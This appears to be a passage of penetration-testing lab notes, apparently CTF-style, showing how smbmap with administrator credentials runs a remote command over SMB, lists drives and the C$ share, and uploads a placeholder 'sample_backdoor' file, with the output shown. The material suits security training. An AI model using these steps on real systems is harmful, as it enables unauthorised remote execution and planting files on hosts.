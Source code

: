 * Run a command using the smbmap `-x` option

```bash
smbmap -u administrator -p smbserver_771 -H 10.2.21.128 -x 'ipconfig'
```

> ❗ _**R**emote **C**ode **E**xecution_ (**`RCE`**) can be achieved through SMB!

* List all drives with `-L` option

```bash
smbmap -u administrator -p 'smbserver_771' -H 10.2.21.128 -L
```

```bash
[+] Host 10.2.21.128 Local Drives: C:\ D:\
[+] Host 10.2.21.128 Net Drive(s):
	No mapped network drives
```

* List directory contents with `-r` option

```bash
smbmap -u administrator -p 'smbserver_771' -H 10.2.21.128 -r 'C$'
```

```bash
[+] IP: 10.2.21.128:445	Name: 10.2.21.128                                       
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	C$                                                	READ, WRITE	
	.\C$\*
	dr--r--r--                0 Sat Sep  5 13:26:00 2020	$Recycle.Bin
	fw--w--w--           398356 Wed Aug 12 10:47:41 2020	bootmgr
	fr--r--r--                1 Wed Aug 12 10:47:40 2020	BOOTNXT
	dr--r--r--                0 Wed Aug 12 10:47:41 2020	Documents and Settings
	fr--r--r--               32 Mon Dec 21 21:27:10 2020	flag.txt
	fr--r--r--       8589934592 Tue Feb 14 03:15:53 2023	pagefile.sys
	dr--r--r--                0 Wed Aug 12 10:49:32 2020	PerfLogs
	dw--w--w--                0 Wed Aug 12 10:49:32 2020	Program Files
	dr--r--r--                0 Sat Sep  5 14:35:45 2020	Program Files (x86)
	dr--r--r--                0 Sat Sep  5 14:35:45 2020	ProgramData
	dr--r--r--                0 Sat Sep  5 09:16:57 2020	System Volume Information
	dw--w--w--                0 Sat Dec 19 11:14:55 2020	Users
	dr--r--r--                0 Tue Feb 14 03:30:25 2023	Windows
```

* Upload a sample file to the `C:\` drive

```bash
touch sample_backdoor
```

```bash
smbmap -u administrator -p 'smbserver_771' -H 10.2.21.128 --upload '/root/sample_backdoor' 'C$\sample_backdoor'
```

```bash
[+] Starting upload: /root/sample_backdoor (0 bytes)
[+] Upload complete
```

